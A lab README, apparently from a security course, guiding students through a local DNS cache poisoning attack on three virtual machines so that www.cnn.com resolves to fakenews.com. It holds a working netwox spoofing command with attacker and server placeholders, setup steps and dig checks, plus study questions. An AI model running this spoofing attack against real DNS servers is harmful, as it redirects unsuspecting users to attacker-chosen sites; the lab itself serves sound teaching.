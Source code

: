 ## Local DNS Cache Poisoning Attack

### Requirement

In this lab, you will poison the cache of a local DNS server, and thus affect clients who rely on this DNS server. More specifically, we want clients who access www.cnn.com go to fakenews.com.

### Setup

3 Linux VMs: Victim (DNS) Client, Victim (DNS) Server, Attacker.

The following is the IP addresses and MAC addresses for the VMs used in this README.

| VM  |  IP Address   |        Role         |
|-----|---------------|---------------------|
| VM1 | 172.16.77.128 | victim (dns) client |
| VM2 | 172.16.77.129 | victim (dns) server |
| VM3 | 172.16.77.130 |   attacker          |

### Steps

1. on DNS Server machine: start the DNS Server. We will use BIND software. (BIND: Berkeley Internet Name Domain) 

```console
# sudo service bind9 start (If it's already running, then # sudo service bind9 restart)
```

2. on DNS Server: remove existing cache:

```console
# sudo rndc flush
```

this screenshot shows the commands to start the server and flush the cache.

![alt text](lab-dns-start-server.png "start server and flush cache")

3. on victim client, configure DNS server information, i.e., let the client know the IP address of the DNS server.

3.1. add this line to the end of file /etc/resolvconf/resolv.conf.d/head (remember to replace DNS_SERVER_IP with your victim DNS server's IP address, plus, you need "sudo" if you edit the file using vi/vim.)

```console
nameserver DNS_SERVER_IP
```

this screenshot shows editing the file in *vi*:
![alt text](lab-dns-edit-file.png "edit the file")

this screenshot shows the file is now edited:
![alt text](lab-dns-configure-dns.png "configure dns")

3.2. run the following command so the above change will take effect:

```console
# sudo resolvconf -u
```

![alt text](lab-dns-resolvconf.png "resolvconf command")

4. on attacker VM, run

```console
# sudo netwox 105 --hostname "www.cnn.com" --hostnameip FAKENEWS.com_IP --authns "ns1.fastly.net" --authnsip ATTACKER_IP --filter "src host DNS_SERVER_IP" --ttl 19000 --spoofip raw
```

FAKENEWS.com IP address (as of today, 05/24/2022): 188.126.71.216 (you can use ping command to confirm it)

**Explanation**: '--spoofip raw' means to spoof at IP4/IP6 level, as opposed to spoof at the data link layer. In other words, spoof IP addresses, instead of spoof MAC addresses.

this screenshot shows the actual command:

![alt text](lab-dns-attack-command.png "attack command")

Question: why it's "src host DNS_SERVER_IP", instead of "src host DNS_CLIENT_IP"?

Question: does the ttl here have the same meaning as the ttl in IP headers?

5. on victim client, send a query.

```console
# dig www.cnn.com 
```

these two screenshots show the attack is successful: www.cnn.com is mapped to 188.126.71.216, which is the IP address of fakenews.com.
![alt text](lab-dns-attack-success-p1.png "attack success")
![alt text](lab-dns-attack-success-p2.png "attack success")

6. stop the attack - press control-c on the attacker VM's terminal. On victim client, run the dig command again and confirm that, even after the attack, www.cnn.com is still mapped to the IP address of fakenews.com, which proves that the cache is indeed poisoned, and thus the attack has a long-lasting effect:

![alt text](lab-dns-attack-success-after-ctrl-c-p1.png "attack still success")
![alt text](lab-dns-attack-success-after-ctrl-c-p2.png "attack still success")


7. you are recommended to remove the line you added in step 3, in this file: /etc/resolvconf/resolv.conf.d/head, so that your future experiments won't be affected.
